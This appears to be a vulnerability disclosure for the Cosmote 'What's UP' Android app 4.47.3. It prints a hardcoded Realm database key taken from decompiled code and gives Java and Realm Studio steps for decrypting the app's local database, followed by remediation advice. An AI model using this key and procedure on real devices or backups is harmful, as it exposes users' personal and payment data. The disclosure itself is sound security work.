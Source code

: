 # [Hardcoded Realm Database Encryption Key] found in What's UP Android App 4.47.3 - (RealmDB.java)

Affected Project: **WHAT'S UP 4.47.3**

Platform: Android

Vendor: Cosmote Greece

Official Application Link: (https://play.google.com/store/apps/details?id=gr.cosmote.whatsup)

Version: 4.47.3

Updated: Oct 10, 2024

<br />

> Installs: 5,000,000+

> Category: Tools

> Android Version Code: 2410115

> File Name: gr.cosmote.whatsup.apk

> Size: 20.06MB

> SHA256: 56fcd6278c70af76b342bd3374b5322d0531a5fe6db8a4dffdcd8002ade59d51

<br /> 


## Description:
The application embeds a hardcoded encryption key `(defaultRealmKey)` within the source code file `gr/desquared/kmmsharedmodule/db/RealmDB.java`. This key is used to encrypt the Realm database file named `defaultKMMV4.realm.enc`. Because the encryption key is hardcoded and packaged inside the APK, an attacker can extract it from the APK file. This exposure enables the attacker to decrypt the database file, leading to unauthorized access to confidential user information, including sensitive personal data and credit card details.


<br /> 

## Root cause:

Vulnerability found at: **RealmDB.java**

Path: gr/desquared/kmmsharedmodule/db/RealmDB.java

<br />  

## Vulnerability Analysis:

Tool for decompiling the simple architect .apk or bundle file: [Jadx](https://github.com/skylot/jadx)

The RealmDB class in RealmDB.java is responsible for managing the encrypted Realm database within the mobile application: 

```
public final class RealmDB {
    public static final String ENCRYPTED_REALM = "ENCRYPTED_REALM";
    public static final RealmDB INSTANCE = new RealmDB();
    private static final String databaseName = "defaultKMMV4";
    private static final String defaultRealmKey = "1234567812345678123456781234567812345678123456781234567812345678";
    private static final String encryptedRealmFileName = "defaultKMMV4.realm.enc";
    private static final long encryptedRealmVersion = 80;
```

Within this class there is a hardcoded encryption key used for securing the database:

```
private static final String defaultRealmKey = "1234567812345678123456781234567812345678123456781234567812345678";
```

<br />

## Impact

1. Predictable Key: A hardcoded encryption key, especially one that is the same across all installations of the application, is inherently insecure. Attackers who decompile the application can easily extract this key.

2. Ease of Decryption: With access to the encryption key, an attacker can decrypt the database contents if they gain access to the device or a backup of the application's data, compromising sensitive user information.

3. Regulatory Non-Compliance: As the application stores personal data and credit cards info, the use of weak encryption practices may violate data protection regulations like GDPR, HIPAA, etc.


<br />

## Decryption sample code

The defaultRealmKey string is converted into a byte array before being used.

Convert the Encryption Key:

```
// Java example
String defaultRealmKey = "1234567812345678123456781234567812345678123456781234567812345678";
byte[] keyBytes = defaultRealmKey.getBytes(StandardCharsets.UTF_8);
```


Configure Realm with the Encryption Key:

```
// Java example
RealmConfiguration config = new RealmConfiguration.Builder()
    .name("defaultKMMV4.realm.enc")
    .encryptionKey(keyBytes)
    .schemaVersion(80)
    .build();
```


Open the Encrypted Realm:

```
// Java example
Realm realm = Realm.getInstance(config);
```


Access and Export Data:

```
// Java example
RealmResults<YourRealmObject> results = realm.where(YourRealmObject.class).findAll();
```


<br />

## Alternative decryption method: Using Realm Studio

Convert the Key to Hexadecimal Format as Realm Studio requires the encryption key in hexadecimal format:

```
// Java code
String defaultRealmKey = "1234567812345678123456781234567812345678123456781234567812345678";
byte[] keyBytes = defaultRealmKey.getBytes(StandardCharsets.UTF_8);

// Convert byte array to hex string
StringBuilder hexString = new StringBuilder();
for (byte b : keyBytes) {
    String hex = String.format("%02x", b);
    hexString.append(hex);
}

String encryptionKeyHex = hexString.toString();
```


Now launch Realm Studio.
Open the encrypted Realm file (defaultKMMV4.realm.enc).

When prompted, enter the hexadecimal encryption key (encryptionKeyHex).

<br />


## Recommendations for Secure Encryption Key Management


1. **Use the Android Keystore System for Secure Key Storage**

Benefits:

Hardware-backed Security: Keys can be stored in hardware-backed keystores on devices that support it.

Isolation: Keys are stored outside the app's process space, making them more resistant to extraction.

<br />

2. **Generate Unique Encryption Keys per Device or User**

Benefits: 

Using unique keys minimizes the impact if a key is compromised. It ensures that only data on a particular device or user account is at risk, not all users.


Methods:
Per-Device Keys: Generate a key during the first launch of the app and store it securely.

Per-User Keys: If your app has user authentication, derive the key from user-specific credentials.

<br />


3. **Use a Key Derivation Function (KDF)**

Benefits:

Even if the KDF parameters are known, without the original input (password/PIN), the key cannot be derived.

Choose a Strong KDF: For example PBKDF2.

<br />

CWE-312: Cleartext Storage of Sensitive Information

CVSS v3.1 Base Score: 7.8 (High)

<br />

DONE !
